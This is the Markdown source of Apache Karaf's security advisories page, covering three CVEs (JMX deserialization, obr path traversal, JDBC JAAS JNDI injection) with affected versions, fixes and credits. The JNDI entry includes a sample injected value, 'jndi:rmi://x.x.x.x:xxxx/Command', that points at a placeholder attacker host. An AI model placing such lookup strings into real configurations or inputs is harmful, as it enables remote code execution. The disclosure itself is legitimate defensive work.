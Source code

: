 ```yaml
---
title: Apache Karaf security advisories
description: Security information for Apache Karaf
layout: single
---
```


# Reporting

Do you want disclose a potential security issue for Apache Karaf? Send your report to the [Apache Security Team](mailto:security@apache.org).

# Advisories

This section is experimental: it provides advisories since 2023 and may lag behind the official CVE publications. If you have any feedback on how you would like this data to be provided, you are welcome to reach out on our public [mailinglist](/mailinglist) or privately on [security@apache.org](mailto:security@apache.org)
{.bg-warning}

## Insecure Java Deserialization in Apache Karaf ## { #CVE-2021-41766 }

CVE-2021-41766 [\[CVE json\]](./CVE-2021-41766.cve.json)

### Affected

* Apache Karaf from Apache Karaf before 4.3.6


### Description

Apache Karaf allows monitoring of applications and the Java runtime by
using the Java Management Extensions (JMX).
JMX is a Java RMI based technology that relies on Java serialized
objects for client server communication.
Whereas the default JMX implementation is hardened against
unauthenticated deserialization attacks, the implementation
used by Apache Karaf is not protected against this kind of attack.

The impact of Java deserialization vulnerabilities strongly depends
on the classes that are available within the targets
class path. 
Generally speaking, deserialization of untrusted data does always 
represent a high security risk and should be prevented.

The risk is low as, by default, Karaf uses a limited set of classes in the JMX server class path.
It depends of system scoped classes (e.g. jar in the lib folder).

### References
* https://karaf.apache.org/security/cve-2021-41766.txt


### Credits
* This issue was reported by Daniel Heyne, Konstantin Samuel and Tobias Neitzel.


## Path traversal flaws ## { #CVE-2022-22932 }

CVE-2022-22932 [\[CVE json\]](./CVE-2022-22932.cve.json)

### Affected

* Apache Karaf from Apache Karaf before 4.2.15


### Description

Apache Karaf obr:* commands and run goal on the karaf-maven-plugin have partial
path traversal which allows to break out of expected folder.

The risk is low as obr:* commands are not very used and the entry is set by user.

This has been fixed in revision:

https://gitbox.apache.org/repos/asf?p=karaf.git;h=36a2bc4
https://gitbox.apache.org/repos/asf?p=karaf.git;h=52b70cf

Mitigation: Apache Karaf users should upgrade to 4.2.15 or 4.3.6
or later as soon as possible, or use correct path.

JIRA Tickets: https://issues.apache.org/jira/browse/KARAF-7326

### References
* https://karaf.apache.org/security/cve-2022-22932.txt


### Credits
* This issue was discovered and reported by GHSL team member Jaroslav Lobacevski


## JDBC JAAS LDAP injection ## { #CVE-2022-40145 }

CVE-2022-40145 [\[CVE json\]](./CVE-2022-40145.cve.json)

### Affected

* Apache Karaf from 4.4.0 before 4.4.2
* Apache Karaf before 4.3.8


### Description

<span style="background-color: rgb(255, 255, 255);">This vulnerable is about a potential code injection when an attacker has control of the target LDAP server using in the JDBC JNDI URL.<br><br>The function jaas.modules.src.main.java.por</span><span style="background-color: rgb(255, 255, 255);">g.apache.karaf.jass.modules.</span><span style="background-color: rgb(255, 255, 255);">jdbc.JDBCUtils#doCreateDatasou</span><span style="background-color: rgb(255, 255, 255);">rce</span><br><span style="background-color: rgb(255, 255, 255);">use InitialContext.lookup(jndiName</span><span style="background-color: rgb(255, 255, 255);">) without filtering.<br>An user can modify&nbsp;</span><span style="background-color: rgb(255, 255, 255);">`options.put(JDBCUtils.DATASOU</span><span style="background-color: rgb(255, 255, 255);">RCE, "osgi:" +&nbsp;</span><span style="background-color: rgb(255, 255, 255);">DataSource.class.getName());` to `options.put(JDBCUtils.DATASOU</span><span style="background-color: rgb(255, 255, 255);">RCE,</span><span style="background-color: rgb(255, 255, 255);">"jndi:rmi://x.x.x.x:xxxx/Comma</span><span style="background-color: rgb(255, 255, 255);">nd");` in JdbcLoginModuleTest#setup.</span><br><br><span style="background-color: rgb(255, 255, 255);">This is vulnerable to a remote code execution (RCE) attack when a</span><br><span style="background-color: rgb(255, 255, 255);">configuration uses a JNDI LDAP data source URI when an attacker has</span><br><span style="background-color: rgb(255, 255, 255);">control of the target LDAP server.</span><p>This issue affects all versions of Apache Karaf up to 4.4.1 and 4.3.7.</p>We encourage the users to upgrade to Apache Karaf at least 4.4.2 or 4.3.8

### References
* https://karaf.apache.org/security/cve-2022-40145.txt


### Credits
* Xun Bai <bbbbear68@gmail.com> (reporter)
